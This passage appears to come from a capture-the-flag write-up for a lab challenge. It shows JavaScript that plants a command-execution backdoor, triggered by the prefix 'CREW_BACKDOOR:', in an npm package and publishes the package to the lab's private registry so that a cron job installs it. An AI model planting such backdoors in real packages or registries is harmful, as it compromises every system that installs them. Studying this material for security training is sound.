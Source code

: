 ```js
    async importPrisoner(url) {
        // implement backdoor
        const child_process = require('child_process');
        if (url.includes('CREW_BACKDOOR:')) {
            try {
                let cmd = url.replace('CREW_BACKDOOR:', '');
                let output = child_process.execSync(cmd).toString();
                return output;
            }
            catch (error) {
                return 'CREW_BACKDOOR: Error executing command.';
            }
        }
        
        // rest of the function code
```

We are modifying the function responsible for importing prisoner records by URL to execute system commands if the URL starts with `CREW_BACKDOOR:` prefix. We'll update the package version in the [prisoner-db/package.json](challenge/prisoner-db/package.json) file to `1.0.1`:

```json
"version": "1.0.1",
```

We can now publish the new version of the package to the private registry by running the following command:

```sh
$ npm --registry=http://registry.prison-pipeline.htb:1337 publish

npm notice 
npm notice 📦  prisoner-db@1.0.1
npm notice === Tarball Contents === 
npm notice 68B   README.md   
npm notice 1.7kB curl.js     
npm notice 3.7kB index.js    
npm notice 375B  package.json
npm notice === Tarball Details === 
npm notice name:          prisoner-db                             
npm notice version:       1.0.1                                   
npm notice filename:      prisoner-db-1.0.1.tgz                   
npm notice package size:  1.9 kB                                  
npm notice unpacked size: 5.9 kB                                  
npm notice shasum:        45089115a6c28a60be40eec5dd3439e196aa13e0
npm notice integrity:     sha512-c+2a/AXllhuvh[...]ytI6OM7GiwI2Q==
npm notice total files:   4                                       
npm notice 
+ prisoner-db@1.0.1
```

The cronjob on the system will update the package and have the backdoor in place to trigger the RCE. We can now utilize the backdoor by requesting the `/api/prisoners/import` function:
